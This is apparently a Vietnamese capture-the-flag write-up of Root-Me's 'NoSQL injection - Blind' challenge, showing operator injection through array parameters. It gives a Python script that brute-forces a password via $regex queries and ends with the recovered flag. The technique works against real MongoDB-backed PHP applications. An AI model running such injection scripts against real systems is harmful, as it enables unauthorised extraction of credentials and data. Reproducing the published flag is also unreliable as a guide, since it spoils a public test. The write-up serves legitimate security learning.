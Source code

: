 ```diff
@@ Web-Server Challenge
```

## NoSQL injection - Blind [45 Points]

* Yêu cầu của challenge này là ta phải tiêm vào cơ sở dữ liệu NoSQL để lấy password của challenge nosqlblind

  ![14](img/14.jpg)

* Nếu truy vấn của ta là URI như sau

  ```diff
  -- index.php?chall_name=nosqlblind&flag=abc
  ```

* Thì bên phía controller sẽ xử lí như sau để tìm trong cơ sở dữ liệu

  ```js
  $database->find(array(
      "chall_name" => "nosqlblind",
      "flag" => "abc"
  ));
  ```

* Còn nếu ta cung cấp tham số là một **mảng hoặc object** chẳng hạn như

  ```diff
  -- index.php?chall_name[$gt]=1&flag[$gt]=1
  ```

* Thì phía server sẽ xử lý thành

  ```javascript
  $database->find(array(
      "chall_name" => array("$gt" => 1),
      "flag" => array("$gt" => 1)
  ));
  ```

* Cụ thể, các cơ sở dữ liệu NoSQL có những toán tử đặc biệt dùng để tìm kiếm các ```document``` . Cụ thể ta có thể tìm hiểu và nghiên cứu tại **[Link này](https://www.mongodb.com/docs/manual/reference/operator/query/)**

* Ở đây em dùng ```$regex``` operator để brute-force các kí tự trong password. Payload brute-force của em là:

  ```python
  import requests

  url="http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]="

  flag = ""
  for i in range(30):
    for j in range(32,127):
      print(chr(j))
      if(chr(j) in ['.', '^', '$', '*', '+','-' ,'?', '\\', '|','#','&']):
        continue
      r = requests.get(url=url+flag+chr(j)+".*")
      if("Yeah" in r.text):
        flag+=chr(j)
        print("Flag --------> ",flag)
        break
  print("Flag --------> ",flag)
  ```

* ```diff
  -- Flag thu được là : 3@sY_n0_5q7_1nj3c710n
  ```